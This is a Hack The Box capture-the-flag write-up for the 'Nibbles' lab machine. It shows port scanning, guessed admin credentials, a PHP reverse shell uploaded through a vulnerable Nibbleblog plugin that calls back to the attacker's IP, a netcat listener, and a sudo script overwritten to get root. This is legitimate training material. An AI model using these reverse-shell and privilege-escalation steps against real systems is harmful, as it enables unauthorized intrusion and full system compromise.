








# HTB - Nibbles

#### Ip: 10.10.10.75
#### Name: Nibbles
#### Rating: Easy

----------------------------------------------------------------------


### Enumeration

Let's kick things off by scanning all open TCP ports:



Ok cool, looks like the classic port 22 and 80 combo found on many Linux CTF boxes. Let's enumerate a bit further with the `-sC` and `-sV` flags to find out more about versions and to fire off some basic Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Nibbles]
└─$ sudo nmap -sC -sV -T4 10.10.10.75 -p 22,80
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-24 15:39 CDT
Nmap scan report for 10.10.10.75
Host is up (0.063s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4f8ade8f80477decf150d630a187e49 (RSA)
|   256 228fb197bf0f1708fc7e2c8fe9773a48 (ECDSA)
|_  256 e6ac27a3b5a9f1123c34a55d5beb3de9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.94 seconds
```

Checking out the http site in the browser we find a basically blank page only containing "Hello World!" in html, but checking out the source of the page (ctrl + u) we find our first clue:



Navigating to http://10.10.10.75/nibbleblog/ we find what appears to be a blog. One of the easiest and most convenient ways to check out a site's tech stack quickly is with a Firefox browser plugin called Wappalyzer. This plugin sits in your task bar in the browser and you can quickly get a lay-of-the-land in regards to technologies being used, simply by clicking the Wappalyzer icon.

In this case I can see the site is running on Apache 2.4.18 as well as using PHP. With this knowledge lets kick of a directory scan against the newly discovered directory in hopes to find some interesting sub-directories. 

For this I'll use Feroxbuster, and because I know the site is using PHP I'll use the `-x php` flags to append .php to words in the list as well as the `-q` flags, just to keep the results a bit more tidy. 



Ok cool, looks like Feroxbuster found some interesting directories. http://10.10.10.75/nibbleblog/admin.php definitely catches my eye first, and when I visit the URL I'm met with a login page. In cases like this I always like to start simple and get more complex only as needed, so I try a few common credential pairs like admin:admin, admin:password, and something like admin:(name-of-the-box) and sure enough admin:nibbles successfully logged me into the admin site!

Poking around the site I see a plugin tab that seems interesting, but I'm not positive if there are any know exploits or misconfigurations here. Heading to Google and searching for 'nibbleblog exploits' returns some very juicy results. One site I'm particularly interested in is https://www.zerodaylab.com/vulnerabilities/CVE-2015/CVE-2015-6967.html which contains the following:



Nice! All that's left to check before trying to exploit this is which version of Nibbleblog we're dealing with here. We can easily confirm this by heading to the Settings tab on the admin page and scrolling down to the bottom of the page:



We're in business! Looks like this version is vulnerable to uploading an executable to the image plugin. 

Quick aside: we also could have grabbed this version by further enumerating the Feroxbuster results, which included a http://10.10.10.75/nibbleblog/README, which also listed the version number:

```text
====== Nibbleblog ======
Version: v4.0.3
Codename: Coffee
Release date: 2014-04-01

Site: http://www.nibbleblog.com
Blog: http://blog.nibbleblog.com
Help & Support: http://forum.nibbleblog.com
Documentation: http://docs.nibbleblog.com
```

### Exploitation

So armed with all this knowledge lets try and upload a php-reverse-shell to the image plugin upload, and see if that gets us a shell, as it appears that the upload feature isn't checking for or sanitizing file type, and only allowing images to be loaded. 

I grab a copy of Pentest Monkey's famous php-reverse-shell.php from https://pentestmonkey.net/tools/web-shells/php-reverse-shell and make the following changes to the code, pasting in my Ip address for the callback as well as which port I will be listening on:

```php
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.30';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

I set up my netcat listener on port 443 and go ahead and upload the shell:



and navigate to http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php to trigger it.

Nice! We have a shell back in our netcat listener as user nibbler!

```text
┌──(ryan㉿kali)-[~/HTB/Nibbles]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.30] from (UNKNOWN) [10.10.10.75] 50406
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 17:31:38 up 43 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
nibbler
```

Lets quickly stabilize the shell using python:

```python
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

From here I can grab the first flag user.txt:



### Privilege Escalation

First thing I always do when beginning to look into escalating privileges is to run `sudo -l` to see if I can run any commands with elevated privileges. In this case the command gets me back some interesting results:

```text
nibbler@Nibbles:/home/nibbler$ sudo -l
sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

Looks like I can run `/home/nibbler/personal/stuff/monitor.sh` as root! Let's check out that file:

```text
nibbler@Nibbles:/home/nibbler$ cat /home/nibbler/personal/stuff/monitor.sh
cat /home/nibbler/personal/stuff/monitor.sh
cat: /home/nibbler/personal/stuff/monitor.sh: No such file or directory
```
Oh interesting, that file doesn't appear to actually exist. However, I did see in nibbler's home directory a file called personal.zip. Unzipping this file inflates a monitor.sh, which we can hopefully use to escalate privileges.

```text
nibbler@Nibbles:/home/nibbler$ ls
ls
personal.zip  user.txt
nibbler@Nibbles:/home/nibbler$ unzip personal.zip
unzip personal.zip
Archive:  personal.zip
   creating: personal/
   creating: personal/stuff/
  inflating: personal/stuff/monitor.sh  
nibbler@Nibbles:/home/nibbler$ ls
ls
personal  personal.zip	user.txt
nibbler@Nibbles:/home/nibbler$ cd personal
cd personal
nibbler@Nibbles:/home/nibbler/personal$ ls
ls
stuff
nibbler@Nibbles:/home/nibbler/personal$ cd stuff
cd stuff
nibbler@Nibbles:/home/nibbler/personal/stuff$ ls
ls
monitor.sh
```
So now I have two options here. I can either choose to load a reverse shell into monitor.sh, or simply make it a bash executable to elevate my privileges to root. Choosing the latter I overwrite monitor.sh to simply:

```text
#!/bin/sh
bash
```
and make sure the file is executable by using  `chmod +x monitor.sh`. From here all I need to do is run the code with sudo to elevate my shell to root:

```text
nibbler@Nibbles:/home/nibbler/personal/stuff$ chmod +x monitor.sh
chmod +x monitor.sh
nibbler@Nibbles:/home/nibbler/personal/stuff$ sudo ./monitor.sh
sudo ./monitor.sh
root@Nibbles:/home/nibbler/personal/stuff# cd /root
cd /root
root@Nibbles:~# ls
ls
root.txt
```



### Key Takeaways

This was a great beginner level Linux box, which showcased some interesting misconfigurations.

Searching for known misconfigurations and exploits can be a great easy win. It took just a couple seconds to Google "nibbleblog exploits", and just a minute or two to find the exploit path onto the machine. When in doubt- Google!

Also, while its definitely important to be mindful of rabbit-holes and red-herrings (looking at you OSCP), if you run something like `sudo -l` on a target and something unique to the box you are on comes up (monitor.sh for example), there's a good chance  this will be your way forward. Take some time to investigate the service before moving on to other exploit paths.

Thanks for following along!

-Ryan
